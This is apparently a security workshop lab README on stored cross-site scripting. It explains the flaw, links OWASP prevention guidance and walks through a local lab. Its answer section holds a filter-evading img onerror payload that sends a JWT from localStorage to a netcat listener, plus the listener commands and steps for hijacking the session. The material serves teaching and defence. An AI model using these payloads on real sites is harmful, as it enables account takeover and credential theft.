 # XSS - Cross Site Scripting

XSS or Cross site scripting is one of the most common vulnerabilities and also one that plagues developers of client side applications in JavaScript. With so many frameworks out there, it becomes challenging to determine what is being rendered and how. A stored XSS attack is one in which an attacker is able to inject arbitrary JavaScript onto a page and have that JavaScript be rendered by another user.

This is especially dangerous on pages that have some type of authentication since authentication tokens can easily be sent to another site via JavaScript.

The best ways to prevent XSS are all cataloged here:
https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.md

**TL;DR: Sanitize all values just before you render them.**

Example:
You have an HTML template you would like to render with a username value as a `data` attribute such as this:

```
<div data-username="<%= @username %>">
...
</div>
```

If the user is able to update their username value, which is stored on the server, they could adjust the HTML to run their own scripts on others' computers on your site:

```
"><script>alert('pwned!')</script><div class="
```


# Lab

Navigate to http://localhost:1337 and you'll be presented with a login page. Now that we have `rick`'s password, let's use that to log into the site. Let's try adding some comments and see what we can do.

<details>
  <summary>Answer</summary>

  It turns out that the comment field is only minimally sanitized before the page renders. This is extremely common especially when sites want to allow users to insert their own HTML for things like adding photos, customizing rich text documents like blogs or creating branded emails.

  As a test, what we can do is something like this:

  ```
  <script>alert('pwned')</script>
  ```

  We notice that the comment is not even rendered. We can open up the developer panel on the right and inspect the JavaScript for `index.js`. We notice that the developer only "sanitized" by removing the ablity for the script tag, but there are many other ways to execute an XSS attack.

  For a fairly comprehensive listing of how this can be achieved, have a look at: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

  Now let's try something a bit more nasty. An alert is silly and fun but what if you wanted to make a quick and easy credential grab after you execute an XSS vulnerability.

  In a terminal, let's start a `netcat` listener:

  * On Mac: `sudo nc -l 18200`
  * On Linux: `sudo nc -l -p 18200`
  * On Windows (as Administrator): `nc -l -p 18200`

  Now let's try to grab the session token from localStorage (this could just as easily be `document.cookie`)

  ```
  <img src="." onerror=$.get('http://localhost:18200/'+localStorage.jwt)>"
  ```

  Since that HTML doesn't have `<script>` in it, it passes and renders creating an HTTP request to your listener on your localhost that looks something like this:

  ```
  $ sudo nc -l 18200
  OPTIONS / lLdv2SY2TWzzXVKSahFDWPLcUHwpXpjsLnhwo0ioRFM HTTP/1.1
  Host: localhost:18200
  Connection: keep-alive
  Access-Control-Request-Method: GET
  Origin: null
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.109 Safari/537.36
  Access-Control-Request-Headers: x-auth-token
  Accept: */*
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  ```

  That bit after options is the valid [jwt](https://jwt.io) token sent via the URL path which will allow access to the site. As an attacker, all you have to do is set your own `localStorage.jwt` value to that string in your browser and you're in without even needing to knowing the password. That being said, for most sessions, you'll only have access until the session has timed out, but for many sites, this is  plenty of time to do significant damage.

  **Followup Question** What are some ways you can think of to add security controls to prevent damage even if a session token is compromised?
</details>
